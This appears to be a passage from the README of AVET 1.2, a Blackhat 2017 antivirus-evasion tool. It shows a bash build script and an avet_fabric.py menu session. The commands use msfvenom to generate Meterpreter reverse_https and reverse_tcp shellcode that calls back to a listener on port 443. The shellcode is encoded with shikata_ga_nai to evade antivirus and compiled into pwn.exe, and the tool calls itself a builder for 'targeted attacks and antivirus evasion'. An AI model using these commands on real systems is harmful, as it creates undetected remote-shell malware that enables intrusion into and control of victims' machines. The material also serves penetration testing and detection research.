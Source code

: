 ```
#!/bin/bash          
# simple example script for building the .exe file
. build/global_win32.sh
# make meterpreter reverse payload, encoded with shikata_ga_nai
# additionaly to the avet encoder, further encoding should be used
msfvenom -p windows/meterpreter/reverse_https lhost=192.168.2.105 lport=443 -e x86/shikata_ga_nai -i 2 -f c -a x86 --platform Windows > sc.txt
# format the shellcode for make_avet
./format.sh sc.txt > scclean.txt && rm sc.txt
# call make_avet, compile 
./make_avet -E -u 192.168.2.105/scclean.txt
$win32_compiler -o pwn.exe avet.c
# cleanup
echo " " > defs.h
# now copy scclean.txt to your web root and start 
```



avet_fabric.py
--------------
avet_fabric is an assistant, that loads all build scripts in the build directory (name has to be build*.sh) and then lets the user edit the settings line by line. This is under huge development.

Example:
```
# ./avet_fabric.py 

                       .|        ,       +
             *         | |      ((             *
                       |'|       `    ._____
         +     ___    |  |   *        |.   |' .---"|
       _    .-'   '-. |  |     .--'|  ||   | _|    |
    .-'|  _.|  |    ||   '-__  |   |  |    ||      |
    |' | |.    |    ||       | |   |  |    ||      |
 ___|  '-'     '    ""       '-'   '-.'    '`      |____
jgs~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

AVET 1.2 Blackhat USA 2017 edition
by Daniel Sauder

avet_fabric.py is an assistant for building exe files with shellcode payloads for targeted attacks and antivirus evasion.

0: build_win32_meterpreter_rev_https_shikata_loadfile.sh
1: build_win32_meterpreter_rev_https_shikata_fopen.sh
2: build_win32_meterpreter_rev_https_shikata_load_ie_debug.sh
3: build_win32_shell_rev_tcp_shikata_fopen_kaspersky.sh
4: build_win32_meterpreter_rev_https_20xshikata.sh
5: build_win32_meterpreter_rev_https_shikata_load_ie.sh
6: build_win64_meterpreter_rev_tcp.sh
Input number of the script you want use and hit enter: 6

Now you can edit the build script line by line.

simple example script for building the .exe file
$ . build/global_win64.sh
make meterpreter reverse payload
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.116.132 lport=443 -f c --platform Windows > sc.txt
format the shellcode for make_avet
$ ./format.sh sc.txt > scclean.txt && rm sc.txt
call make_avet, compile
$ ./make_avet -f scclean.txt -X -E
$ $win64_compiler -o pwn.exe avet.c
```